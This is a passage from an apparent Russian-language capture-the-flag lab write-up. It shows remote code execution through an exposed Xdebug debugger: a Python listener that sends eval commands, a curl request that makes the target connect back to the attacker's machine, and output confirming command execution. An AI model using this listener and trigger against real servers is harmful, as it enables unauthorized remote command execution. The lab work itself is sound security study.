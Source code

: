 ### Proof-of-Concept
1\. Первым шагом запускается Python-скрипт, слушающий дефолтный для Xdebug'а 9000-й порт:
```python
#!/usr/bin/python2
import socket

ip_port = ('0.0.0.0', 9000)
sk = socket.socket()
sk.bind(ip_port)
sk.listen(10)
conn, addr = sk.accept()

while True:
    client_data = conn.recv(1024)
    print(client_data)

    data = raw_input('>> ')
    conn.sendall('eval -i 1 -- %s\x00' % data.encode('base64'))
```

```text
root@kali:~# python olympus_shell.py

```

Тем самым мы готовимся перехватить коннект на скрипт и уйти в бесконечный цикл выполнения команд.

2\. Далее с помощью `curl` триггерится вполне легитимная (в теории) debug-сессия и мгновенно улетает на поднятый ранее листенер:
```text
root@kali:~# curl -H 'X-Forwarded-For: 10.10.13.180' 'http://10.10.10.83/index.php?XDEBUG_SESSION_START=phpstorm'

```

3\. После чего оживляется скучающий Python-скрипт. Пингуем нашу машину:
```text
root@kali:~# python olympus_shell.py
486<?xml version="1.0" encoding="iso-8859-1"?>
<init xmlns="urn:debugger_protocol_v1" xmlns:xdebug="http://xdebug.org/dbgp/xdebug" fileuri="file:///var/www/html/index.php" language="PHP" xdebug:language_version="7.1.12" protocol_version="1.0" appid="17" idekey="phpstorm"><engine version="2.5.5"><![CDATA[Xdebug]]></engine><author><![CDATA[Derick Rethans]]></author><url><![CDATA[http://xdebug.org]]></url><copyright><![CDATA[Copyright (c) 2002-2017 by Derick Rethans]]></copyright></init>
>> system('ping -c 2 10.10.14.14')
336<?xml version="1.0" encoding="iso-8859-1"?>
<response xmlns="urn:debugger_protocol_v1" xmlns:xdebug="http://xdebug.org/dbgp/xdebug" command="eval" transaction_id="1"><property type="string" size="61" encoding="base64"><![CDATA[cm91bmQtdHJpcCBtaW4vYXZnL21heC9zdGRkZXYgPSA2OC4wMDEvNjguMzQ2LzY4LjY5MC8wLjM0NSBtcw==]]></property></response>
```

Ловим отчет об удачном пинге на поднятом на фоне tcpdump'е, а также получаем похожее сообщение об успехе операции от процесса, где бежит curl:
```text
root@kali:~# tcpdump -v -i tun0 'icmp[icmptype]==8'
tcpdump: listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
16:02:34.256845 IP (tos 0x0, ttl 62, id 57110, offset 0, flags [DF], proto ICMP (1), length 84)
    10.10.10.83 > kali: ICMP echo request, id 153, seq 0, length 64
16:02:35.242676 IP (tos 0x0, ttl 62, id 57292, offset 0, flags [DF], proto ICMP (1), length 84)
    10.10.10.83 > kali: ICMP echo request, id 153, seq 1, length 64
```
